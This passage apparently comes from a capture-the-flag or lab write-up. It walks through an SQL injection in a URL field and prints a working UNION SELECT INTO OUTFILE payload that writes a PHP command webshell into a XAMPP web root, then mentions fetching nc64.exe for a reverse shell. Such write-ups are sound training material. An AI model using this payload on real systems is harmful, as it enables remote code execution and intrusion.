 If we enter `'` into the URL field, we get an SQL error:

<figure><img src="../../../.gitbook/assets/image (135).png" alt=""><figcaption></figcaption></figure>

Interesting. Since we basically have an SQL Interpreter here, we can make it write a webshell in PHP onto the file system. Earlier, we found that the `DOCUMENT_ROOT` of one of the web applications was at `C:\xampp\htdocs`, which we can use.

We can then use this payload to write a webshell:

{% code overflow="wrap" %}
```sql
' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/web.php'  -- -' 
```
{% endcode %}

This would work, and then we can attempt to access this shell on port 45332.&#x20;

<figure><img src="../../../.gitbook/assets/image (92) (5).png" alt=""><figcaption></figcaption></figure>

We can then download `nc64.exe` onto the machine and get a reverse shell:

<figure><img src="../../../.gitbook/assets/image (97) (6).png" alt=""><figcaption></figcaption></figure>
